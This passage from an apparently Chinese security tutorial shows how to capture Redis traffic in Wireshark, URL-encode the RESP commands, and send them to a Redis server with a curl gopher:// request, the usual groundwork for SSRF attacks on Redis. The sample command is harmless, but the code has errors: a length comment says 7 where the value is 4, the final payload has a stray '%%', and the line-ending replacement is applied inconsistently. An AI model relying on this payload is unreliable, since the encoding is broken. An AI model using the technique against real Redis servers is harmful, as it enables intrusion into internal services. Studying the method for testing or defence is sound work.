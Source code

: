 
接下来拿到本地用wireshark分析下数据包，追踪下TCP流：

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226121715508-2145005313.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226121715508-2145005313.png)

 

 

 



```
*1 #数组长度为1
$7 #多行字符串，长度为7
COMMAND #命令
*1 #数组长度为1
$4 #多行字符串，长度为7
info #返回字符串，文本行的集合。
```

 

转换为url编码



```
*1
$7
COMMAND
*1
$4
info


url encode：
*1%0A%247%0ACOMMAND%0A*1%0A%244%0Ainfo
```



```
(注意将%0A替换为%0D%0A)
```



```
*1%0D%0A%247%0ACOMMAND%0D%0A*1%%0D%0A%244%0D%0Ainfo
```

 

curl构造请求



```
curl gopher://192.168.110.133:6379/_*1%0D%0A%247%0ACOMMAND%0D%0A*1%%0D%0A%244%0D%0Ainfo
```

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122258156-404912908.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122258156-404912908.png)

